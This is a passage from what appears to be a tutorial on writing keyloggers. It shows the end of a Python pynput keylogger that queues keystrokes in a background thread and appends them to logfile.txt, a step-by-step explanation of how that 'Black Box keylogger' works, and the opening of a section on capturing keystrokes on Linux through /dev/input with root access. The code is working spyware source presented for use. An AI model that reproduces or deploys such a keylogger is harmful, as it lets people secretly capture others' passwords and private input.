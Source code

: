 ```python
                pass
            elif key == key.ctrl:
                pass
            else:
                key_string += str(key)

        if len(key_string) >= 20:
            with open('logfile.txt', 'a') as f:
                f.write(key_string)
            key_string = ''

        q.task_done()


def on_press(key):
    q.put(key)


q = queue.Queue()  # 1) Create a Queue object
t = threading.Thread(target=worker)  # 2) Initialize the worker function in a separate Thread
t.start()  
listener = keyboard.Listener(on_press=on_press)  # 3) Initialize the Pynput Listener object
listener.start()
```

---

## **The Black Box keylogger works as follows:**

1) It creates a queue object that will store the key events.
2) It creates a thread object that will run a worker function in the background. The worker function will get the key events from the queue, convert them to strings, and append them to a key_string variable. It will also handle some special keys, such as space, backspace, enter, and shift, by adding the appropriate characters to the key_string. If the key_string reaches a certain length (20 in this example), it will open a file named logfile.txt in append mode and write the key_string to it. Then, it will reset the key_string to an empty string.
3) It creates a keyboard listener object that will monitor the keyboard events and call an on_press function for each key press. The on_press function will simply put the key event into the queue.

The queue and threading is to ensure that the pynput module doesn't block the main thread while listening to the keyboard events. You can learn more about the pynput module from https://pynput.readthedocs.io/.

# **Key Loggers: Linux - Interpreting /dev/input/ events**

Linux expands the concept of a file to every component of your computer. Each device attached to your computer will have a corresponding file that represents a binary stream of input data, which lives in the `/dev/input/` directory. To listen to keystrokes globally on a Linux box, we need the account we are using to have reading rights to the input events, which generally will be limited to root access. 
